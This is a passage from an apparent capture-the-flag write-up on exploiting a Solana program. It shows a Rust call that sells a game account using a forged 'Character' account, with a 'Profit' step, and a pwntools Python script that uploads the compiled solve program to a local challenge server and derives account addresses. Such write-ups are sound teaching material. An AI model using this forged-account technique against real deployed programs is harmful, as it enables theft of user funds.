 ```rust
    ],
);
```
#### Sell the account with the forged `Character`
```rust
let _ = invoke(
    &sell_account(*gft.key, *user.key, account_name, &[character_id]),
    &[
        useraccount.clone(),
        user.clone(),
        vault.clone(),
        character_info.clone(),
        sys.clone(),
    ],
);
```
#### Profit


### python script to send our program to the server

We have to connect to the server, send our compiled program size and our program and then retrieve the challenge program and user program pubkey, we can then send our accounts and data to call our program's entrypoint

```python 
from pwn import *
from solana.publickey import PublicKey
from solana.system_program import SYS_PROGRAM_ID

host = args.HOST or "localhost"
port = int(args.PORT or 5000)
solve_so = "solve.so"

io = connect(host, port)

# read our program from file
with open(solve_so, "rb") as f:
    solve_so_data = f.read()

# send program's size to server
io.sendlineafter(b"len", str(len(solve_so_data)).encode("ascii"))
# send program to server
io.send(solve_so_data)

# receive challenge program pubkey
io.recvuntil(b"program: ").decode("ascii")
program = PublicKey(io.recvline().strip().decode())
log.info(f"program: {program}")

# receive user pubkey
io.recvuntil(b"user: ").decode("ascii")
user = PublicKey(io.recvline().strip().decode("ascii"))
log.info(f"user: {user}")

# find useraccount pubkey and bump
useraccount, useraccount_bump = PublicKey.find_program_address(
    [
        b"ACCOUNT",
        bytes(PublicKey(user)),
        b"f1x3r",
    ],
    program,
)
```